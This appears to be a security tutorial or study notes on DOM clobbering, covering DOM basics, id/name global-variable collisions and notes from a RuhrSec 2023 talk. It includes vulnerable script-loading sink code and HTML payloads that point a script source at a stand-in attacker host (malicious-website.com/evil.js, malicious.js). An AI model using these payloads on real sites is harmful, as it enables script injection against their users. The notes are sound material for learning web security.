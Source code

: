 --------------

### Dom Clobbering

--------------

### Document Object MOdel

-------------

- Dom is known as the document object model.It is a programming interface that allows us to create,remove and change element from a document.DOM is very powerful in the way that it allows you to change or access the majority of the content inside the web page. The DOM views an HTML document as a tree of nodes. A node represents an HTML element. 
- Html code E.g

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>DOM tree structure</title>
  </head>
  <body>
    <h1>DOM tree structure</h1>
 <h2>Learn about the DOM</h2>
  </body>
</html>
```
- Explanation-: The document is called the `root node` and contains  a child node which is the `<html>` tag.The `<html>` contains the `<head>` and `<body>` elements.`<head>` and `<body>` have elements of their own.

---------------

### HTML Collection

---------------

- When we combine HTML elements into groups they become a collection. This becomes like an array structure where you can represent each element by the order they appear in the collection e.g. collection[0], collection[1].

---------------

### DOM CLobbering

---------------

- DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM. So you can clobber a global variable or property of an object and overwrite it DOM Node or HTML collection. However, DOM was initially born and implemented without any standardization which led to a lot of peculiar behaviour and for the sake of maintaining compatibility, browsers still support the unusual behaviour of DOM. That leads us to DOM clobbering. Due to non-standardized DOM behaviour, browsers may sometimes add name and id attributes to various DOM elements as a property reference to document or global objects. However, this results in replacement of properties on the other objects.
- How it works-:
 - The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.The term clobbering comes from the fact that you are “clobbering” a global variable or property of an object and overwriting it with a DOM node or HTML collection instead. For example, you can use DOM objects to overwrite other JavaScript objects and exploit unsafe names, such as submit, to interfere with a form’s actual submit() function.
- Main sink-:

```javascript
var someObject = window.someObject || {};
```

- If you can control some of the html, you can clobber the `someObject` object reference with a DOM node with an anchor.Check this code-:

```html
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

- Payload-:

```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js> 
```

- As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the someObject reference with this DOM collection. A name attribute is used on the last anchor element in order to clobber the url property of the someObject object, which points to an external script.

--------------

### Basics

---------------

- You can generate global variables within the js context with the attributes `id` and `name` in html tags.

```html
<form id="x"></form>
<script>
  console.log(typeof document.x) //[object HTMLFormElement]
</script>
```
- Only certain elements can use the `name` attributes.e.g

```html
embed
form
iframe
image
img
object
```
- Interestingly, when you use a form element to clobber a variable, you will get the toString value of the element itself: [object HTMLFormElement] but with anchor the toString will be the anchor href.If you clobber using the a tag, you can control the value when it's treated as a string.

```html
<a href="controlled string" id="x"></a>
<script>
  console.log(x) //controlled string
</script>
```
- Clobbering an array and attributes-:

```html
<a id=x>
  <a id =x name=y href=controlled>
  </a>
</a>
```
- Use a form to clobber 3 attributes-:

```html
<form id="x" name="y"><input id="z" value="controlled" /></form>
<form id="x"></form>
<script>
  alert(x.y.z.value) //controlled
</script>
```
- Clobbering attributes with `iframe`

```html
<iframe name="x" srcdoc="<a id=y href=controlled></a>"></iframe>
<style>
  @import "https://google.com";
</style>
<script>
  alert(x.y) //controlled
</script>
```
--------------

### Youtube Video(Ruhrsec 2023)

----------------

-  It means `codeless markup injection`.
-  Markup `id/name` collides with sensitive variables or APIs, and overwrties them.
-  Code sink-:
```js
document.globalConfig = {'src': 'script.js', [...]);
// [...]
var s =  document.createElement('script');
//sink
s.src = doocument.globalCOnfig.src;
document.body.appendChild(s);
```
- Payload-:
```html
<img id="globalConfig" src="malicious.js" name=clobbered>
```
- Dom Clobbering: Threat Model-:
 - Injection( through input params)
   -  Url params
   -  Window name
   -  Document Referrer
   -  postMessages

- Why does  `DOM Clobbering` happen?
- 
---------------

### REFERENCES

---------------

- [IBM](https://medium.com/@ibm_ptc_security/dom-clobbering-baa55c208bce)

---------------

